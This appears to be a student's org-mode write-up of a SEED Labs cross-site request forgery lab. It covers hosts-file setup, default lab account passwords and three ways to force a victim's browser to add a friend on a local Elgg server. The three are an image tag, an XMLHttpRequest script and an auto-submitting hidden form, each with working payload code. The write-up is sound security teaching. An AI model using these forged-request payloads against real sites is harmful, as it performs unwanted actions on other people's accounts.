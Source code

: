 * Lab Setup

Configure the /etc/hosts file to 

10.9.0.5 www.seed-server.com
10.9.0.5 www.example32.com
10.9.0.105 www.attacker32.com

** Credentials
|----------+-------------|
| Username | Password    |
|----------+-------------|
| admin    | seedelgg    |
|----------+-------------|
| alice    | seedalice   |
|----------+-------------|
| boby     | seedboby    |
|----------+-------------|
| charlie  | seedcharlie |
|----------+-------------|
| samy     | seedsamy    |
|----------+-------------|


* Task 1
** Approach 1
*** Inject malicious link in the image source
#+BEGIN_SRC html
  <html>
    <body>
      <h1>This page forges an HTTP GET request</h1>
      <img src="http://www.seed-server.com/action/friends/add?friend=59" alt="image" width="1" height="1" />
    </body>
  </html>
#+END_SRC

Inserting malicious link in HTTP image tag doesn't work anymore, because of CORB (Cross Origin Read Blocking)
which can ~identify and block dubious cross origin resource loads~ before they even reach the webpage.

** Approach 2
*** Inject malicious javascript with XMLHttpRequest
#+BEGIN_SRC javascript
  <script>
      window.onload=function(){
          var sendurl="http://www.seed-server.com/action/friends/add?friend=59";
          var Ajax=new XMLHttpRequest();
          Ajax.open("GET", sendurl, true);
          Ajax.send();
      }
  </script>
#+END_SRC
Why doesn't the AJAX request from cross origin doesn't work where as form requests from different site works?

** Approach 3
Send data as form requests from attackers site
#+BEGIN_SRC javascript
  <script type="text/javascript">
      function forge_post(){
          var fields;

          // The following are form entries need to be filled out by attackers.
          // The entries are made hidden, so the victim won't be able to see them.
          fields += "<input type='hidden' name='friend' value='59'>";

          // Create a <form> element.
          var p = document.createElement("form");

          // Construct the form
          p.action = "http://www.seed-server.com/action/friends/add";
          p.innerHTML = fields;
          p.method = "get";

          // Append the form to the current page.
          document.body.appendChild(p);

          // Submit the form
          p.submit();
      }

      // Invoke forge_post() after the page is loaded.
      window.onload = function() { forge_post();}
  </script>
#+END_SRC
** Screenshot

[[./screenshots/task-1.png]]





* Task 2

